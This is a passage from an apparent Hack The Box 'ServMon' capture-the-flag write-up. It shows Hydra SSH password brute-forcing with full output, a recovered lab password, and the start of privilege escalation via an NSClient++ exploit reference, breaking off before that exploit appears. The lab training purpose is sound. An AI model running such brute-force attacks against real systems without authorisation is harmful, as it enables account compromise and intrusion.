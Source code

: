 ```bash
root@w0lf:~/CTF/HTB/Boxes/ServMon# hydra -l 'nathan' -P passwords.txt 10.10.10.184 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-23 09:25:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-23 09:25:16
```

Seems like the password didn't work for user `Nathan` so try with the another user `Nadine`

```bash
root@w0lf:~/CTF/HTB/Boxes/ServMon# hydra -l 'nadine' -P passwords.txt 10.10.10.184 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-23 09:36:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-23 09:37:03
```

And we found the password for user `Nadine`

Successfully Logged in with `Nadine : L1k3B1gBut7s@W0rk`

![Untitled](/img/htb-servmon/Untitled%203.png)

## Privilege Escalation

When Looking at the `Program Files` I found something interesting.

![Untitled](/img/htb-servmon/test.png)

So I google about this and get to know its running in the port `8443` and we already saw that in our Nmap scan.

> **NSClient** is an agent designed originally to work with Nagios but has since evolved into a fully fledged monitoring agent which can be used with numerous monitoring tools (like Icinga, Naemon, OP5, NetEye Opsview etc).

So I searched for exploits and found this

> [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

So First let's check the `nsclient.ini`
